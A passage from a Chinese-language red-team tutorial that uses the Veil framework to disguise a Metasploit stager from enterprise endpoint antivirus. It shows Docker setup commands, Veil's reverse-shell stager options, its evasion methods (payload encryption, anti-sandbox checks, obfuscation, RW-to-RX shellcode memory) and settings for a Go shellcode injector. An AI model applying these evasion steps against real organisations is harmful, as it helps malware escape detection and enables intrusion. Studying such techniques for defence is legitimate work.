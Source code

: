 为了避免 stager 被企业的终端安全软件查杀，接下来，要对这段 payload 进行文件免杀。

### 对抗 - 终端安全

注意：关注文件免杀的原理、方法，而不是工具使用，工具只是辅助完成我们的免杀目的。  
本次具体使用 Veil 进行文件免杀。

#### Veil 搭建与概览

[Veil](https://www.veil-framework.com/) 在 Docker 使用即可：  
拉取镜像  
`docker pull mattiasohlsson/veil`  
启动容器  
`docker run -it -v /tmp/veil-output:/var/lib/veil/output:Z mattiasohlsson/veil`  
其中 / tmp/veil-output 为我物理机 Mac 系统的路径，Docker 中的 Veil 将生成的 17yes.exe 等文件（见下文），存储在这个目录中。

Veil 自动启动，主要分为两个功能：

```
[*] Available Tools:
    1)  Evasion
    2)  Ordnance

#1 Evasion功能 用来做文件免杀（就选这个）

#2 Ordnance功能 用来快速生成MSF stager shellcode的工具(类似msfvenom)。
    可以生成6种payload：
    1)  bind_tcp          => Bind TCP Stager (Stage 1)
    2)  rev_http          => Reverse HTTP Stager (Stage 1)
    3)  rev_https         => Reverse HTTPS Stager (Stage 1)
    4)  rev_tcp           => Reverse TCP Stager (Stage 1)
    5)  rev_tcp_all_ports => Reverse TCP All Ports Stager (Stage 1)
    6)  rev_tcp_dns       => Reverse TCP DNS Stager (Stage 1)
```

我们现在需要文件免杀，所以选 1。  
`use 1`

在此暂停下，先介绍 “原理 - Veil 的文件免杀原理”，然后再看实操 “实操 - 文件免杀”。

### 原理 - Veil 的文件免杀原理

Veil 使用以下方法实现文件免杀：

*   将 payload 以加密形式保存
    *   aes
    *   des
    *   ...
*   判断运行环境是否是目标的运行环境（反沙箱 反虚拟机）
    *   进程数量
    *   cpu 核数
    *   当前计算机加入的域的名称
    *   当前计算机的计算机名
    *   当前系统的用户名
    *   当前 running 的进程数
    *   ...
*   混淆
    *   对源代码中的变量名进行混淆（见对 17yes.go 源代码的讲解部分）
*   内存申请方式
    *   stager 以 RW 权限申请内存 -> 将 shellcode 写入这部分内存 -> 将内存权限从 RW 更改为 RX -> 调用 CreateThread 和 WaitForSingleObject


[go/shellcode_inject/virtual>>]: set USERNAME lll  
[go/shellcode_inject/virtual>>]: set Sleep 10  
[go/shellcode_inject/virtual>>]: set HOSTNAME win7  
[go/shellcode_inject/virtual>>]: set UTCcheck TRUE